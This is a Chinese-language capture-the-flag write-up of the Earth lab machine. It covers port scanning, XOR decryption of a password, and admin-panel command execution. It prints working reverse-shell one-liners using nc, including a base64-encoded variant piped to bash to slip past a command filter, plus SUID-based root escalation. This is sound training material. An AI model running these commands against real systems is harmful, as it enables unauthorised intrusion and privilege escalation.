最近开始学习靶机渗透，目前打了两三个靶机，觉得这个Earth蛮有意思的，写个报告复盘一下。
主机发现
本次渗透用 kali 作为攻击机，Earth 作为靶机，网络模式均设置为NAT。开启靶机前，在攻击机上执行ifconfig”查看到攻击机IP为192.168.222.129/24，接着执行nmap -sP 192.168.222.129/24扫描同网段的主机；开启靶机后，再次扫描同网段主机，对比找到靶机IP为192.168.222.140。

端口扫描
执行namp -sS 192.168.222.140扫描靶机开放端口，可以看到有一个ssh连接用的端口和两个网页服务。再执行nmap -A -p- 192.168.222.140对端口信息进行详细扫描，这个过程稍微久一点，可以看到443端口下有两个可用域名，分别是earth.local和terratest.earth.local。


信息收集
我们都知道，访问一个域名时，主机会先在本地的hosts文件下查找有没有匹配的IP地址，如果找到了就直接访问，没找到再通过 DNS 进行查找。现在我们知道靶机IP，又知道了两个对应IP的域名，那么可以先将IP与域名一一对应关系保存在本地，再去访问域名。通过查找得知Linux系统用于域名解析的文件路径是/etc/hosts，执行sudo vim /etc/hosts，添加映射信息并保存。

http协议访问80端口，返回了一个400页面；https协议访问443端口，返回一个fedora网页服务测试页面，均没有得到有效信息。


回到收集到的两个域名，刚才我们已经把域名解析映射关系保存在本地了，那么我们便可以在本地直接访问这两个域名。访问earth.local，返回了一个信息服务系统，看样子每次发送信息时需要同时输入信息和密钥，系统会把信息用密钥加密后再发送出去，网页下面还有几条之前发送的信息。

访问terratest.earth.local，发现和earth.local页面的前端信息是一样的。

web渗透
这两个域名网站除了比开放的两个端口给出了更具体的服务外，也并没有可利用的点。用 dirsearch 进行目录扫描，进一步搜集信息。http协议下两个域名都扫描出来了登录界面，但我们并没有搜集到可用于登录的信息。

回想到前面端口扫描时靶机IP下除了有http协议的网页，也有https协议的网页，尝试在https协议下扫描这两个域名，在terratest.earth.local下发现了robots.txt。robots.txt一般是用来说明哪些网页不允许被爬取的，那么这些网页必然有有价值的点。

访问https://terratest.earth.local/robots.txt ，发现最下面有一个与众不同的文件，它的后缀被隐藏了，推测是php或者txt，试着访问一下。

成功访问到https://terratest.earth.local/testingnotes.txt，这个文件说信息服务系统采用参照RSA的异或加密算法，testdata.txt文件被用来加密测试，管理员后台用户名是terra。

访问https://terratest.earth.local/testdata.txt，可以看到是一段文字，按常理来说明文信息应该不会被这么容易访问到，推测这段文字应该是作为密钥用的。

用 cyberchef 先将加密的内容转为 UTF-8 格式，接着与密钥异或，得到原文。分别对三段密文做了尝试，前两段密文异或之后均是乱码，第三段密文异或之后发现是earthclimatechangebad4humans的循环，由于目前之后登录界面可以作为输入的点，推测应该是登录密码。

成功用terra用户登录进了系统，可以看到是一个管理员命令工具，用来执行终端命令。经过尝试，虽然说terra是管理员，但这个工具仅仅能够执行一些低权限命令，像查看root文件夹这样子的命令执行后都是返回空。

getshell获取flag
在这个命令工具中操作不太方便，考虑反弹shell到kali上。在kali中执行nc -lvvp 5555开启一个端口用于接收靶机反弹的shell，接着在命令工具中执行nc -e /bin/bash 192.168.222.129 5555，但是返回提示说远程连接被禁止。

既然明的不行那就只能来暗的了，将命令用base64编码为bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMjIyLjEyOSA1NTU1，接着拼接为命令echo bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMjIyLjEyOSA1NTU1 | base64 -d | bash，通过管道符将命令经过 base64 解码后再传给bash执行，成功反弹shell。用python脚本python -c 'import pty; pty.spawn("/bin/bash")'获得一个可视化交互shell。执行find -name "*flag*"模糊查找文件名包含flag的文件，找到一个./var/earth_web/user_flag.txt。

提权
执行find / -perm -u=s -type f 2>/dev/null在靶机中查找具有SUID标志的文件或命令，在结果中发现一个reset_root命令，顾名思义应该是用来重置root用户的。

执行reset_root命令，提示说为检测到触发器，看样子是缺少了什么文件所以没法正常执行。

我们都知道，命令其实也是一个程序，既然程序是在运行过程中出问题了，那么可以考虑用strace对运行中的程序进行追踪看看具体是什么情况。在kali中执行nc -lvvp 1111 > reset_root用来接收靶机的reset_root内容并重定向到本地的reset_root中，在靶机执行nc 192.168.222.129 1111 < /usr/bin/reset_root。

在kali中执行strace ./reset_root，跟踪程序进程，发现程序运行时本地缺少了三个必要的文件，靶机中应该也是同样的情况。

在靶机中创建好三个必要文件后，执行reset_root,成功重置root用户密码为Earth。切换到root用户，拿到最终flag。
